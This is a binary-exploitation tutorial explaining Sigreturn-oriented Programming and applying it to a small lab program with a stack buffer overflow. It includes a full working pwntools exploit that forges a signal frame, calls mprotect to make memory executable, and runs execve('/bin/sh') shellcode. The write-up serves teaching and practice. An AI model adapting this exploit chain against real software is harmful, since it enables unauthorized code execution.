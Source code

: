 # Sigreturn-oriented Programming (SROP)

This is a technique which can be used when there are few or not particularly useful gadgets. It requires only 2 gadgets: a way to manipulate `rax` and a `syscall`. The trade-off, however, is that it requires a bigger overflow depending on what you want to achieve.

When a signal occurs in Linux, the kernel stores the state of the process by constructing a _Signal Frame_ on the stack. Once the signal has been processed, the `rt_sigreturn` syscall is envoked to restore the process's state from the stack. `rt_sigreturn`, however, does not check whether or not the state it is restoring from the stack is the same as the state that the kernel pushed onto it. Usually, this is not a problem because `rt_sigreturn` is never called without a signal having been processed - the syscall for it in libc is actually defined to just return an error code. Interestingly enough, there are also no protection mechanism to ensure that `rt_sigreturn` is called only after a signal has been processed which means that nothing is stopping an adversary from calling it and modifying the process's state by manipulating what is on the stack.

### The Signal Frame

The signal frame represents the state of a process which is backed up onto the stack when a signal needs to be handled and has the following format:

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/Signal Frame.svg>)

When `rt_sigreturn` is invoked, the top 248 bytes of the stack will be restored into the above locations.

### The Exploit

Consider the following programme:

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/checksec srop.png>)

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/Sigreturn Programme.png>)

The highlighted code allows an adversary to read 768 bytes into a buffer of size only 32, which results in a buffer overflow. In order to trigger the buffer overflow, we can inspect the code and calculate (alternatively you can fuzz the programme) the number of padding bytes which we will need - this turns out to be 40. Since the NX is enabled, we will need to build a ROP chain. Unfortunately, there is a little snag - there are barely any gadgets available.

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/SROP Gadgets.png>)

So we will have to be more sophisticated and use Sigreturn-oriented programming. We see that there is a readily-available `syscall` gadget, but there is no straightforward way to manipulate the `rax` registered which is needed for issuing syscalls.

Upon further inspection, the `loc.write` procedure invokes `sys_write` which is lucky for us because if `sys_write` is successful, it returns the number of characters written in `rax`. Now that we know how to manipulate `rax`, we turn our attention to the construction of our ROP chain.

The ROP chain begins by invoking `loc.vuln` again, so that it may in turn invoke `loc.write`. Once `loc.vuln` is called, the programme will ask us for input. We need to send 14 characters (the 15-th being the  at the end) to it, so that `loc.write` can then print those 15 characters and set `rax` equal to 15 as a result. Once these characters have been written, `loc.vuln` will return execution to our ROP chain. Since `rax` now contains the syscall number of `rt_sigreturn`, namely 15, the next instruction in the ROP chain should be `syscall`.

`rt_sigreturn` will take the top 248 bytes of the stack and attempt to restore the state of the process from them. This means that all registers will be overwritten with values from the stack. Since we control what is on the stack via the buffer overflow, we also control what gets put into those registers. Therefore, the payload for the ROP chain should also contain an artificial signal frame after the `syscall` instruction, which will be the top of the stack.

From here on, all that is left is figuring out a quick way to get a shell. I have opted for some shellcode which invokes `execve` with `"/bin/sh"`. To do this we need to use `sys_mprotect` to change the permissions of a memory region to read-write-execute. Therefore, the registers inside our malicious signal frame should contain the following values:

* `rax` - `0xA` (the number for the `sys_mprotect` system call)
* `rdi` - the beginning of the memory region whose permissions we want to change
* `rsi` - the size of the memory region
* `rdx` - `0x7` (RWX permissions)
* `rip` - the address of the `syscall` gadget

Now, it would have been nice if we had a way to preserve the value of the stack pointer, but that is not possible. Since we are forced to overwrite it, however, we might as well make do with what we can. We have no way of referring to the stack prior to `rt_sigreturn`, so we will just invent a new one!

In order to achieve this, we need to find a location in memory which contains the address of `loc.vuln`, even if it does so only coincidentally. The reason for this is that, after `rt_sigreturn` finishes, `rip` will be set to the `syscall` gadget which will execute `sys_mprotect`. The instruction after the syscall is a `ret` which means that the value of the location pointed to by `rsp` will be copied to `rip`, and we want it to then proceed again with the execution of `loc.vuln`. Hence why `rsp` should contain a _pointer_ to the address of `loc.vuln`.

Now that memory is executable, we proceed by exploiting `loc.vuln` yet another time in order to execute the shellcode which spawns a shell.

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/Sigreturn Exploit.svg>)

With this information we can construct an exploit using pwntools:

```python
from pwn import *

context.clear(arch='amd64')

p = process("./srop")

syscall_address = 0x401014 # &syscall
sigreturn_number = 0xF
mprotect_number = 0xA
mprotect_permissions = 0x7

vuln_address = 0x40102e # &loc.vuln()
pointer_to_vuln_address = 0x4010d8 # &&loc.vuln() - using a debugger, I found that this location contains 0x40102e at runtime

padding = b'A' * 40

signal_frame = SigreturnFrame(kernel="amd64")
signal_frame.rax = mprotect_number
# It does not matter what memory we make RWX, but for simplicity, we are just going to make a huge chunk from the beginning of the binary executable. We just need to make sure that the new stack will be contained in it.
signal_frame.rdi = 0x400000 # Beginning of the memory block (in this case, the binary)
signal_frame.rsi = 0x10000 # Size of the memory block
signal_frame.rdx = mprotect_permissions
signal_frame.rip = syscall_address # This will proceed to execute sys_mprotect
signal_frame.rsp = pointer_to_vuln_address # Beginning of the new stack

payload = padding + p64(vuln_address) + p64(syscall_address) + bytes(signal_frame)
p.sendline(payload)
p.recv()

# Send 15 characters (14*'A' + '\n')
p.sendline(b'A' * (sigreturn_number - 1))
p.recv()

# Remove the comments in the assembly in order for it to compile
shellcode = asm("""
mov rdi, 0x68732f6e69622f ; '/bin/sh\x00' in little-endian
push rdi
mov rdi, rsp
mov rax, 0x3b ; execve syscall number
xor rsi, rsi
xor rdx, rdx
syscall
""", arch="amd64")

# The stack pointer will be moved 40 bytes down and the padding will take those 40 bytes, reaching pointer_to_vuln_address. We then add 1 byte for the value contained at pointer_to_vuln_address itself and then add 1 more byte to make room for the actual shellcode_address.
shellcode_address = pointer_to_vuln_address + 0x10

payload = b'A'*40 + p64(shellcode_address) + shellcode
p.sendline(payload)

p.interactive()
```

![](<../../../Exploitation/Binary Exploitation/Stack Exploitation/Resources/Images/ROP/Sigreturn shell.png>)
